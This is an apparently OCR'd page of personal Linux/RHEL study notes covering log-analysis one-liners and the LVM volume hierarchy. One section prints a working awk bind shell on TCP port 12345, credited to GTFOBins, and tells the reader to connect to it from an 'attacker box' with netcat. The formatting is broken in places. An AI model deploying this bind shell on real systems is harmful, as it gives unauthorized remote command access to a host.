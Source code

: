 ### 🧪 To test it:
On your attacker box:
```bash
nc target.com 12345

- Run `nc target.com 12345` on the attacker box to connect to the shell.
    
    ```

Lil snippet for the target
``` bash
    LPORT=12345
    awk -v LPORT=$LPORT 'BEGIN {
        s = "/inet/tcp/" LPORT "/0/0";
        while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
        while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
    ```

---
More info: https://gtfobins.github.io/gtfobins/awk/ (spicy fun awk stuff, no i didnt write that bind shell, its from gtfo bins, a good place for offensive sec stuff)

## 3.4 Live Demo Suggestions

Show these **non-destructive, practical one-liners**:

- **Log analysis:**
  ```bash
  grep "sshd" /var/log/secure
  tail -f /var/log/messages


```

xsX

# 📦 3. LVM – Why It Exists and Where It Shows Up

  

RHEL installs use LVM (Logical Volume Manager) by default.

  

Why? Flexibility. You can resize volumes live, take snapshots, and separate concerns.


The classic layout you’ll see:



LVM hierarchy:
![[Pasted image 20250520171937.png]]
  

Physical Volume (/dev/sda2) 
	→ Volume Group (rhel) 
		→ Logical Volumes (rhel-root, rhel-home, etc)

